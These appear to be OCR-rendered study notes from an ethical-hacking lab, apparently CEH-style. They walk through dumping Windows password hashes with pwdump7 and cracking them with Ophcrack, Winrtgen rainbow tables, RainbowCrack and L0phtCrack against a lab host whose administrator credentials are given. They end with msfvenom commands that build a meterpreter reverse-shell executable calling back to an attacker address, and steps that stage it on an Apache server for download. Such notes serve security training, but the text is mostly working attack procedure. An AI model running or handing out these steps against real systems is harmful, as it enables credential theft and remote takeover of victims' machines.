 
**Pwdump7 (To dump password hashes)**

***pwdump7.exe -d c:\lockedfile.dat backup-lockedfile.dat*** |dump protected file

Brows admin terminal to pwdump7 path and run ***pwdump.exe*** in **cmd**  | shows password hashes ***PwDump7.exe > c:\hashes.txt*** | export hashes to path defined

In text file replace boxes with account names obtained from WMIC. **The last code numbers** will be the **identity**. And Save the file


**Ophcrack (To crack password hashes)**

**To crack passwords not longer than 14 characters using only alphanumeric characters** Open /x86 gui version. Load PWDUMP and select the hashes.txt file.

Select Table **Vista Free**. Install it from location where ophcrack files are placed.

Click Crack to start cracking

**Copy the Hashes.txt to shared drive for future labs.**


**Winrtgen – Create Rainbow table**

Click on add table

Select hash NTLM, min length 4, max length 6, Chain Count 4000000, Charset Loweralpha Click OK on main window to start , table is saved in Winrtgen folder.


**Rainbow Crack**

Open **rcrack\_gui.exe**

Click **File,** then select **Load NTLM hashes from PWDUMP**

Open **Hashes.txt** saved from before

Now click **Rainbow Table** à **Select Rainbow table** à **Select table created by winrtgen** à **crack process automatically starts**


**L0phtCrack**

Open **Password Auditing Wizard.** Choose **Windows.** Select **Remote Machine** Type **Host: 10.10.10.12,** Select **the Use Specific User Credentials** Administrator:Pa$$w0rd:CEH.com

Select **Strong Password Audit**

**Perform Calibration?** click **No.**

**Establish VNC connection to target machine using MSFVENOM and MSFCONSLE Payload setup**

- ***msfvenom -p windows/meterpreter/reverse\_tcp --platform windows -a x86 -f exe LHOST=10.10.10.11 LPORT=444 -o /root/Desktop/Test.exe*** | -p payload, --platform platform of the target, -a architecture, -f output format, -o save the output path 
- _Type **mkdir /var/www/html/share**_** | make directory
- Type ***chmod -R 755 /var/www/html/share*** | change rights recursively to all files and folders inside
- Type ***chown -R www-data:www-data /var/www/html/share*** | change owner recursively  owner:group
- ***mv /root/Desktop/Test.exe /var/www/html/share*** | move the exploit
- ***service apache2 start***
